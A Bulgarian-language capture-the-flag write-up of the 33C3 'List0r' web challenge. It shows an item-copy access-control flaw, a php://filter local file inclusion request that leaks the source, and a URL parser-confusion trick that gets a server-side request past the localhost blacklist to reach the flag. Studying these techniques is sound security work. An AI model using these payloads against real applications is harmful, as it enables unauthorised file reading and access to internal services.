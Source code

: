 # **List0r** - 400 точки
**33c3ctf/web**

![](files/header.png)


отдалечен уеб сървър: http://78.46.224.80/

Първата уязвима функция която открих се намира във функцията за копиране на item от list-овете който можем да създаваме. 

![](files/copy_function.png)

Уязвимоста ни позволява да правим хоризонтални ескалаций в правата и да копираме чужд item в наш list. 

```
GET /?target=<int(4453)-ID на нашия list>&page=item&action=copy&item=<int-номер на item който искаме да копираме в нашия лист> HTTP/1.1
Host: 78.46.224.80
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8
Cookie: PHPSESSID=bh3hcnmsltvp97oaobcivap6g7
Connection: close
```

Направих бързо енумериране(и прехвърляне) на 1вите създаде items и ето че този с номер 5 ни издава нещо интересно:

![](files/item_hint.png)

Оказва се обаче че файлът - **reeeaally/reallyy/c00l/and_aw3sme_flag**, не може да бъде достъпен директно с GET заявка към сървъра. 

Файлът трябва да бъде достъпен през localhost

```
403 - Sorry, but this is only accessible from 127.0.0.1
```

Явно трябва да има още уязвими функций по пътя. Такива че да можем да направим  **Local File Inclusion**(LFI)

Такава уязвимост успях да намеря отново посредством **PHP филтри** в:

```
GET /?page=php://filter/convert.base64-encode/resource=index HTTP/1.1
Host: 78.46.224.80
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8
Cookie: PHPSESSID=bh3hcnmsltvp97oaobcivap6g7
Connection: close
```

Макар и да **НЕ** можем да достъпим флагът през тази функция успяваме да изтеглим всички релевантни за web апликацият [*.php файлове](files/source_code_p400.tar.gz) от сървъра. Забиваме поглед в сорс-кода и му правивм ревю за други уязвимости.

Файлът който представлява най-голям интерес е **functions.php** и по-специално функцията **get_contents($url)**:

```
function get_contents($url) {
        $disallowed_cidrs = [ "127.0.0.1/24", "169.254.0.0/16", "0.0.0.0/8" ];

        do {
            $url_parts = parse_url($url);

            if (!array_key_exists("host", $url_parts)) {
                die("<p><h3 style=color:red>There was no host in your url!</h3></p>");
            }

            $host = $url_parts["host"];

            if (filter_var($host, FILTER_VALIDATE_IP, FILTER_FLAG_IPV4)) {
                $ip = $host;
            } else {
                $ip = dns_get_record($host, DNS_A);
                if (count($ip) > 0) {
                    $ip = $ip[0]["ip"];
                    debug("Resolved to {$ip}");
                } else {
                    die("<p><h3 style=color:red>Your host couldn't be resolved man...</h3></p>");
                }
            }

            foreach ($disallowed_cidrs as $cidr) {
                if (in_cidr($cidr, $ip)) {
                    die("<p><h3 style=color:red>That IP is a blacklisted cidr ({$cidr})!</h3></p>");
                }
            }

            // all good, curl now
            debug("Curling {$url}");
            $curl = curl_init();
            curl_setopt($curl, CURLOPT_URL, $url);
            curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
            curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);
            curl_setopt($curl, CURLOPT_MAXREDIRS, 0);
            curl_setopt($curl, CURLOPT_TIMEOUT, 3);
            curl_setopt($curl, CURLOPT_PROTOCOLS, CURLPROTO_ALL 
                & ~CURLPROTO_FILE 
                & ~CURLPROTO_SCP); // no files plzzz
            curl_setopt($curl, CURLOPT_RESOLVE, array($host.":".$ip)); // no dns rebinding plzzz

            $data = curl_exec($curl);

            if (!$data) {
                die("<p><h3 style=color:red>something went wrong....</h3></p>");
            }

            if (curl_error($curl) && strpos(curl_error($curl), "timed out")) {
                die("<p><h3 style=color:red>Timeout!! thats a slowass  server</h3></p>");
            }

            // check for redirects
            $status = curl_getinfo($curl, CURLINFO_HTTP_CODE);
            if ($status >= 301 and $status <= 308) {
                $url = curl_getinfo($curl, CURLINFO_REDIRECT_URL);
            } else {
                return $data;
            }

        } while (1);
    }
```
Тази функция се използва от "Настройки на профила"(http://78.46.224.80/?page=profile) в часта където трябва да се посочи URL за сваляне на снимка от отдалечен сървър.

Функцията започва с защита срещу това да бъдат използвани алтернативив на localhost, който не съм сигурен доколко работят защото дори адреси като 127.1.0.1 би трябвало да бъдат приети(защото не е в 127.0.0.1/24). Но като допълнение се прави **reserve lookup**.

Виждаме следните коментари в кода:
* `// no files plzzz` - това посочва че сме на правилен път и може да извикваме всякакъв вид вайлове който да ни бъдат презентирани с `return $data`
* `// no dns rebinding plzzz` - до сега не бях правил **dns rebinding** 
_ПС: и след 20 неуспешни опита, все още не съм правил :)_ 

Следващата интересна част от кода беше функцията [`parse_url()`](http://php.net/manual/en/function.parse-url.php) която след няколко теста разбрах че има пропуски в parsing часта:

Нека вземем примерно валидната **curl** заявка:
```
d3k4:/$ curl -vvv http://u:p@google.com:80@yahoo.com/нещоси

# Kъдето
# u = потребител (случайни данни)
# p = парола (случайни данни)
# google.com = хостът към който ще се прати заявката
# 80 = порт 
# yahoo.com/нещо = това ще бъде прието като path но ще бъде съкратено до /нещо
```  

Сега нека да го сравним с parsing функционалността на **parse_url()**. Резултата на [този скрипт](files/parse_url_test.php) ни дава:

```
initial: http://u:p@127.0.0.1:80@d3k4.com/reeeaally/reallyy/c00l/and_aw3sme_flag 
H=d3k4.com # хостът запазен в $url_parts["host"] променливата
u=u # потребител
pass=p@127.0.0.1:80 # очевидно НЕ е паролата 
path=/reeeaally/reallyy/c00l/and_aw3sme_flag #пътя до файла
```

Тази разлика в parsing-а на подаваните адреси ще ни позволи да заобиколим защитата. Изпращаме следната заявка:

![](files/profile_curl.png)

Тази завка успява усешно да премине през защитата, защото lookup ще бъде направен на **d3k4.com** а няма да се обърне внимание на адреса **127.0.0.1** който ще бъде насочена **curl** заявката.

`33C3_w0w_is_th3r3_anything_that_php_actually_gets_right?!???`